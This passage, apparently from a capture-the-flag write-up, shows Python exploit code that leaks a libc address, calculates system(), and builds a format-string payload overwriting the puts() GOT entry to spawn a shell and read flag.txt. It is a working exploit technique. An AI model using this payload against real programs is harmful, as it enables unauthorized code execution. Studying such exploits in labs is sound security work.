 ```
if setvbuf_addr != None:
  # extract the hexadecimal address (excludes the "0x" prefix)
  ad = bytes(setvbuf_addr.group()[2::], "utf-8")
  # convert to an integer from the string representation of the base-16
  # (hexadecimal) address
  int_ad = int(ad, 16)
  # calculate libc base address by subtracting the offset of setvbuf()
  base = int_ad - LIBC_SETVBUF_OFS
  print("Calculated libc base address: " + hex(base))
  # calculate the address of system() using the known offset and base address
  libc_system_addr = base + LIBC_SYSTEM_OFS
  print("Calculated libc system() address: " + hex(libc_system_addr))

  # split re-writting of puts() GOT into two short words to reduce unneccessary
  # output required to generate the required characters written count
  high_short_word = ((libc_system_addr >> 16) & 0xFFFF)
  low_short_word  = (libc_system_addr & 0xFFFF)

  # construct the write to target address portion of the payload
  payload = b''
  # we must write the smallest of the low or high short words first
  if (high_short_word > low_short_word):
    payload += b'%' + bytes(str(low_short_word), 'ascii') + b'x%43$hn'
    payload += b'%' + bytes(str(high_short_word - low_short_word), 'ascii') + b'x%44$hn'
  else:
    payload += b'%' + bytes(str(high_short_word), 'ascii') + b'x%43$hn'
    payload += b'%' + bytes(str(low_short_word - high_short_word), 'ascii') + b'x%44$hn'
  # word align payload with padding to have fixed locations for the format specifier
  # arguments, regardless of write value string length (may vary with address variation)
  payload_len = len(payload)
  payload += b'.' * (40 - payload_len)
  # append the target write addresses to the payload in the correct order
  if (high_short_word > low_short_word):
    payload += p64(PUTS_GOT) + p64(PUTS_GOT + 2)
  else:
    payload += p64(PUTS_GOT + 2) + p64(PUTS_GOT)

  # save payload to file for analysis/debugging
  with open("payload.txt", "wb") as binary_file:
    binary_file.write(payload)

  # send to the payload to the target and wait for the shell to drop
  target_proc.sendline(payload)
else:
  print("setvbuf address not found!");

target_proc.interactive()
target_proc.wait()
``` 

Running the script generates a lot of output to construct the correct write values, but once successful the script goes interactive (our spawned shell) at which point we can list the contents of the file system and dump the contents of the `flag.txt` file.

